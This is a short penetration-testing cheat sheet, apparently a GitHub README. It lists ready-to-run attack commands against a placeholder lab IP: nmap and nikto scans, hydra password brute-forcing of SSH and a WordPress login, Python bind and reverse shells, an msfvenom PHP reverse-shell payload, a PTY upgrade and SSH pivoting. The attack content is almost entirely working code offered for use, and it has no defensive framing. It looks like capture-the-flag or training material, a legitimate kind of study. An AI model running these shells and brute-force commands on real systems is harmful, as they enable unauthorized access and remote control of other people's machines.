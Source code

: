 
## Port Scanning
```bash
sudo nmap 10.10.10.10 -sS -sU --min-rate 1000 -oA demo-openports-initial
```

## Web Crawling
```bash
dirsearch.py -u 10.10.10.10 --simple-report demo-webcrawl.txt
```

## Vulnerability Scanning
```bash
nikto -h 10.10.10.10 -Format txt -o demo-vulnscan-web.txt
```

## Password Guessing
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 -t4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

## Bind Shells
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
```bash
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=443 -f raw -o shell.php

export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

## Upgrade to a PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```

## Pivoting
```bash
ssh -R 8080:localhost:8080 victor@home.edu
```
